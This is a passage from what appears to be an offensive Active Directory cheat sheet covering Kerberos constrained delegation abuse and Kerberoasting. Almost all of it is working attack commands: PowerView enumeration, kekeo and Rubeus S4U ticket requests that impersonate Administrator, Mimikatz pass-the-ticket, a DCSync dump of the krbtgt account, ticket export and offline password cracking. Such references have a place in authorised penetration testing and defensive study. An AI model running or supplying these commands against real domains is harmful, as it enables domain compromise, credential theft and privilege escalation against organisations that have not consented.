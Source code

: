 Allows the first hop server to request access only to specified services on specified computers.  
* Enumerate users and computers with constrained delegation enabled
```
Get-DomainUser -TrustedToAuth (PowerView)
Get-DomainComputer -TrustedToAuth (PowerView)
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

* Exploitation
```
.\kekeo.exe
tgt::ask /user:ok$ /domain:example.okcorp.local /rc4:<hash>
tgs::s4u /tgt:<tgt_file> /user:Administrator@<domain> /service:CIFS/<hostname>.<domain>
Invoke-Mimikatz -Command '"kerberos::ptt <tgs_file>"'
klist
```
or
```
.\Rubeus.exe s4u /user:ok$ /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/<hostname>.<domain>" /ptt
```
or
```
.\kekeo.exe
tgt::ask /user:<machine$>  /domain:example.okcorp.local /rc4:<hash_machine_account>
tgs::s4u /tgt:<tgt_file> /user:Administrator@<domain> /service:<service_name>|LDAP/<hostname>
Invoke-Mimikatz -Command '"kerberos::ptt <tgs_file>
klist
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Kerberoast
It is an attack technique where an attacker/user requests a TGS from the KDC for services running on behalf of user accounts in AD, after capturing the TGS from memory, the hash of the offline service account is broken.  
* Discover services running with user accounts
```
Get-NetUser -SPN
```

* After finding a user with defined SPN, request a ticket for the service.
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<service>/<hostname><domain>"
klist
```

* Dumping tickets to disk:
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

* Offline crack service account password  
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\<tgs_file>
```
